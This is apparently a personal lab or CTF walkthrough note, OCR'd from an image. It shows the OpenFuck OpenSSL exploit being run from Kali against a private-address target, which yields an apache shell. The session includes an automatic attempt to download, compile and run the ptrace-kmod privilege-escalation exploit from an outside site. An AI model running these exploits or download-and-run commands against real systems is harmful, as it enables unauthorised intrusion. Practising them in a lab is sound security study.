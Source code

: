 						  *******************************************************************
						  * OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
						  *******************************************************************
						  * by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
						  * #hackarena  irc.brasnet.org                                     *
						  * TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
						  * #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
						  
						  ```
					- 成功進入伺服器
					  collapsed:: true
						- ```shell
						  ┌──(kali㉿kali)-[~/Documents]
						  └─$ ./OpenFuck 0x6b 192.168.204.44 443 -c 40
						  
						  *******************************************************************
						  * OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
						  *******************************************************************
						  * by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
						  * #hackarena  irc.brasnet.org                                     *
						  * TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
						  * #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
						  * #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
						  *******************************************************************
						  
						  Connection... 40 of 40
						  Establishing SSL connection
						  cipher: 0x4043808c   ciphers: 0x80f8050
						  Ready to send shellcode
						  Spawning shell...
						  bash: no job control in this shell
						  bash-2.05$ 
						  d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
						  --05:56:05--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
						             => `ptrace-kmod.c'
						  Connecting to dl.packetstormsecurity.net:443... connected!
						  
						  Unable to establish SSL connection.
						  
						  Unable to establish SSL connection.
						  gcc: ptrace-kmod.c: No such file or directory
						  gcc: No input files
						  rm: cannot remove `ptrace-kmod.c': No such file or directory
						  bash: ./exploit: No such file or directory
						  bash-2.05$ 
						  bash-2.05$ ls
						  ls
						  bash-2.05$ whoami
						  whoami
						  apache
						  bash-2.05$ help
						  help
						  GNU bash, version 2.05.8(1)-release (i386-redhat-linux-gnu)
						  These shell commands are defined internally.  Type `help' to see this list.
						  Type `help name' to find out more about the function `name'.
						  Use `info bash' to find out more about the shell in general.
						  